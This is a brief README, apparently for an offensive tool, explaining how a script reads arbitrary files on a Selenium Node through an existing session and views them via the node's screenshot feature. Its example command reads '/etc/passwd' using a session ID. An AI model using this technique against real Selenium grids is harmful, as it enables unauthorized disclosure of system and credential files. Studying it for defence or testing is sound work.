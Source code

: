 # Selenium Scripts

## Usage
Execute script with URL, SessionID, and file arguments. The SessionID is obtained from the Selenium Node web interface after you create a session. 

"Take a screenshot" within the Selenium Node web interface to view the file or folder you specified in the arguments. 

```
python3 node-fileread.py -u 'http://localhost:4444/wd/hub' -s 872de14392f18a99a2298c4a1d732743 -f '/etc/passwd' 
```
